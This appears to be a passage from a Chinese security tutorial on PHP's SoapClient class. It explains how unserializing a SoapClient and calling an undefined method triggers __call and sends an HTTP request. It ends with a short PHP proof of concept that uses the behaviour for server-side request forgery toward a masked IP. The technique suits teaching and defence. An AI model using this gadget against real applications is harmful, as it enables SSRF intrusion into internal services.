 类摘要：[PHP手册](https://www.php.net/manual/zh/class.soapclient.php)

```
SoapClient `{`
/* 方法 */
public __construct(string|null $wsdl, array $options = [])
public __call(string $name, array $args): mixed
public __doRequest(
    string $request,
    string $location,
    string $action,
    int $version,
    bool $oneWay = false
): string|null
public __getCookies(): array
public __getFunctions(): array|null
public __getLastRequest(): string|null
public __getLastRequestHeaders(): string|null
public __getLastResponse(): string|null
public __getLastResponseHeaders(): string|null
public __getTypes(): array|null
public __setCookie(string $name, string|null $value = null): void
public __setLocation(string|null $location = null): string|null
public __setSoapHeaders(SoapHeader|array|null $headers = null): bool
public __soapCall(
    string $name,
    array $args,
    array|null $options = null,
    SoapHeader|array|null $inputHeaders = null,
    array &amp;$outputHeaders = null
): mixed
`}`
```

注意这个`__call()`方法`public __call(string $name, array $args): mixed`<br>
该方法被触发的时候，它可以发送HTTP或HTTPS请求。<br>
使用这个类时，php中的scapClient类可以创建soap数据报文，与wsdl接口进行交互。用法如下：

```
public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
第一个参数是用来指明是否是wsdl模式
如果为null，那就是非wsdl模式，反序列化的时候会对第二个参数指明的url进行soap请求

如果第一个参数为null，则第二个参数必须设置location和uri
    其中location是将请求发送到的SOAP服务器的URL
    uri是SOAP服务的目标名称空间

第二个参数允许设置user_agent选项来设置请求的user-agent头
```

测试

```
&lt;?php
$a = new SoapClient(null,array('location'=&gt;'http://47.xxx.xxx.72:2333/aaa', 'uri'=&gt;'http://47.xxx.xxx.72:2333'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c-&gt;a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?&gt;
```
